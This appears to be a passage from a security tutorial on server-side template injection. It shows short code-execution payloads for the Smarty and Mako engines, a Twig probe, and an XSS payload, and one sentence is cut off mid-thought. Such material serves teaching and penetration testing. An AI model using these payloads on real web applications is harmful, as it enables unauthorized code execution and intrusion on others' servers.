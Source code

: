 
#### Exploiting Template Injection

For example, if you are dealing with the PHP template engine called **Smarty**, the RCE payload can be as simple as the one liner below

```php
{php}echo `id`;{/php}
```



The Python engine **Mako** is also very straightforward , as we see below

```python
<%
import os
x=os.popen('id').read()
%>
${x}
```



In the case of the **Twig** PHP engine things are a bit more complex. You can grab your copy of

Injecting `{{5*5}}` into the web form results in "25" being returned to the user.

![](./assets/20.png)





Apart from the aforementioned template injection vulnerability of unknown impact you can also observe an XSS vulnerability if you type in, for example

```html
{{<svg/onload=confirm(1)>}}
```



Trying to brute force object names could be an additional step; for example, Twig utilizes a known object named **{{_self}}** which is a reference to the current application instance)
